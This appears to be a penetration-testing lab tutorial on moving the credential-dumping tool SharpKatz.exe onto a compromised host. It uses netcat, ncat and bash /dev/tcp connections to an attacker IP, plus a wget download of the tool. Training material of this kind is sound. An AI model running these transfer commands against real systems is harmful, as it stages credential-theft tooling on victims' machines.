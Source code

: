 # Miscellaneous File Transfer Methods

File Transfer with Netcat and Ncat

## Netcat

### NetCat - Compromised Machine - Listening on Port 8000
```
victim@target:~$ # Example using Original Netcat
victim@target:~$ nc -l -p 8000 > SharpKatz.exe
```
If the compromised machine is using Ncat, we'll need to specify --recv-only to close the connection once the file transfer is finished.

### Ncat - Compromised Machine - Listening on Port 8000
```
victim@target:~$ # Example using Ncat
victim@target:~$ ncat -l -p 8000 --recv-only > SharpKatz.exe
```

### Netcat - Attack Host - Sending File to Compromised machine
```
DaleDunlop@htb[/htb]$ wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
DaleDunlop@htb[/htb]$ # Example using Original Netcat
DaleDunlop@htb[/htb]$ nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

If we use Ncat in our attack host, we can use --send-only instead of -q. --send-only in both connect and listen modes causes Ncat to quit when its input runs out. Usually, it will not stop until the network connection is closed because the remote side may still send something, but in the case of --send-only, there's no reason to receive anything more.

### Ncat - Attack Host - Sending File to Compromised machine
```
DaleDunlop@htb[/htb]$ wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
DaleDunlop@htb[/htb]$ # Example using Ncat
DaleDunlop@htb[/htb]$ ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```

Instead of listening on our compromised machine, we can connect to a port on our attack host to perform the file transfer operation. This method is useful in scenarios where there's a firewall blocking inbound connections. Let's listen on port 443 on our Pwnbox and send the file SharpKatz.exe as input to Netcat.

### Attack Host - Sending File as Input to Netcat
```
DaleDunlop@htb[/htb]$ # Example using Original Netcat
DaleDunlop@htb[/htb]$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```
### Compromised Machine Connect to Netcat to Receive the File
```
victim@target:~$ # Example using Original Netcat
victim@target:~$ nc 192.168.49.128 443 > SharpKatz.exe
```

Let's do the same with Ncat:

### Attack Host - Sending File as Input to Ncat
```
DaleDunlop@htb[/htb]$ # Example using Ncat
DaleDunlop@htb[/htb]$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```
### Compromised Machine Connect to Ncat to Receive the File
```
victim@target:~$ # Example using Ncat
victim@target:~$ ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```

If we don't have Netcat or Ncat on our compromised machine, Bash supports read/write operations on a pseudo-device file /dev/TCP/.
Writing to this particular file makes Bash open a TCP connection to host:port, and this feature may be used for file transfers.

## NettCat - Sending File as Input to Netcat
```
DaleDunlop@htb[/htb]$ # Example using Original Netcat
DaleDunlop@htb[/htb]$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```
### Ncat - Sending File as Input to Netcat
```
DaleDunlop@htb[/htb]$ # Example using Ncat
DaleDunlop@htb[/htb]$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```
### Compromised Machine Connecting to Netcat Using /dev/tcp to Receive the File
```
victim@target:~$ cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```

